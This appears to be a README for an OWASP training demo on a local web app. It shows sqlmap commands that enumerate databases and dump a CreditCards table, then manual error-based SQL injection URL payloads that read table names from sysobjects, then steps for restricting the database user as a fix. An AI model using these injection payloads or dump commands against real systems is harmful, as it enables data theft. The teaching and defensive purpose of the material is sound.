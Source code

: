 # Materials

## App url
https://localhost:44394/products1?id=1

## sqlmap

```
python sqlmap.py -u "https://localhost:44394/products1?id=1" --batch --dbs
```

```
python sqlmap.py -u "https://localhost:44394/products1?id=1" --batch --tables -D Owasp
```

```
python sqlmap.py -u "https://localhost:44394/products1?id=1" --batch --dump -T CreditCards -D Owasp
```

```
python sqlmap.py -u "https://localhost:44394/products1?id=1" --batch --dump -T CreditCards -D Owasp --force-pivoting
```

## SQL Injection step-by-step
* https://localhost:44394/products1?id=1 or 1=1
  * all products
* https://localhost:44394/products1?id=x
  * discovered we get exceptions from sql server
  * SqlException: Invalid column name 'x'
* shows all tables in database:
```
(
	select name from sysobjects where id = (
		select top 1 id from (
			select top 1 id from sysobjects where xtype=char(85) order by id asc
		) sq order by id desc
	)
)
```
* https://localhost:44394/products1?id=(select+name+from+sysobjects+where+id+in+(+select+top+1+id+from+(+select+top+1+id+from+sysobjects+where+xtype=char(85)+order+by+id+asc+)+sq+order+by+id+desc))
  * SqlException: Conversion failed when converting the nvarchar value 'Products' to data type int.
    * **conversion error**
* Now increment the second "1"
* https://localhost:44394/products1?id=(select+name+from+sysobjects+where+id+in+(+select+top+1+id+from+(+select+top+2+id+from+sysobjects+where+xtype=char(85)+order+by+id+asc+)+sq+order+by+id+desc))
  * SqlException: Conversion failed when converting the nvarchar value 'CreditCards' to data type int.

## Restrict db user
* Owasp database > Security > Users > owaspTestUser
  * Membership - uncheck dbowner
  * Securables > Search > All objects of types > OK > Tables > OK
    * Product/CreditCard > Grant Select > Column permissions